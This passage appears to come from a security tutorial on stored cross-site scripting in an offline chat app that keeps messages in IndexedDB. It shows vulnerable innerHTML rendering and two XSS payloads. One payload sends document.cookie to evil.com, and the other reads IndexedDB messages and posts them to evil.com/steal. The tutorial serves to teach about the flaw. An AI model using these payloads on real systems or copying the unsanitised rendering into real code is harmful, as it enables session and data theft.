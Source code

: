 ```js
        text: text
    });
}

// Render messages
function renderMessages() {
    const db = dbRequest.result;
    const tx = db.transaction("messages", "readonly");
    const store = tx.objectStore("messages");

    store.getAll().onsuccess = (event) => {
        const messages = event.target.result;

        messages.forEach(msg => {
            // ❌ BAD: Directly inserting user input into HTML
            document.querySelector("#chat").innerHTML += `<p><b>${msg.user}</b>: ${msg.text}</p>`;
        });
    };
}
```

---

## **How the Attack Works**

An attacker could send a message containing HTML/JS payload:

```html
<img src=x onerror="fetch('https://evil.com/'+document.cookie)">
```

If this message gets stored in IndexedDB (from the attacker’s account) and then rendered **without sanitization**, the script will execute locally when the victim opens the chat — even offline.

**Impact**:

* Stealing stored session tokens or sensitive data from IndexedDB/localStorage.
* Running malicious actions in the context of the app.
* Persisting XSS offline — works even if victim loads app in airplane mode.

---

## **Real-World Payloads**

1. **Stealing IndexedDB contents**

```html
<img src=x onerror="
  indexedDB.open('ChatApp').onsuccess = e => {
    let db = e.target.result;
    let tx = db.transaction('messages', 'readonly');
    let store = tx.objectStore('messages');
    store.getAll().onsuccess = ev => {
      fetch('https://evil.com/steal', {
        method: 'POST',
        body: JSON.stringify(ev.target.result)
      });
    };
  };
">
```
